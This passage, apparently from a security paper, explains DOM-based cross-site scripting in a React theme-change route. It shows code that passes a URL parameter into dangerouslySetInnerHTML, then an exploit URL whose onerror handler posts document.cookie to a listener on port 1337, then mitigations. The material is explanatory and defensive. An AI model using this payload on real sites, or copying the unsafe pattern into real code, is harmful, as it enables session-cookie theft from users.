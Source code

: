 \documentclass[]{article}
\begin{document}
In a DOM XSS attack, the malicious script is injected and executed entirely within the browser, modifying the DOM to perform unauthorized actions or exfiltrate sensitive data. \\ 
\textbf{Vulnerable code:}
Consider the possibility for users to change the theme color. The vulnerable React code in \texttt{routes/changeTheme.js} retrieves the theme color (\texttt{themeChosen} variable) from the '\texttt{color}' URL parameter and displays it using the \texttt{dangerouslySetInnerHTML} property:

\begin{lstlisting}
<p style={{ marginTop: '20px' }}>You selected: <strong dangerouslySetInnerHTML={{__html:themeChosen}}></strong></p>
\end{lstlisting}
\textbf{Exploitation:}
An attacker can craft a malicious URL like this:

\begin{lstlisting}
http://localhost:3000/user/changeTheme?color=<audio src="" onerror="fetch('http://localhost:1337',{method:'POST',body:document.cookie})">
\end{lstlisting}
When a user visits this URL, the script executes and sends the user's cookies to the attacker's server listening on port 1337. The attacker can capture the cookies using netcat. \\ 
\textbf{Mitigation:}
To prevent DOM XSS vulnerabilities, it is essential to set cookies with the \texttt{HttpOnly: true} flag to prevent access to \texttt{document.cookie}, properly handle and sanitize all user inputs before they are used to manipulate the DOM, and avoid using \texttt{dangerouslySetInnerHTML}.

\subsubsection{Improper Neutralization of Directives in Dynamically Evaluated Code}
\label{subsubsec:improper_neutralization_of_directives_in_dynamically_evaluated_code}
\end{document}
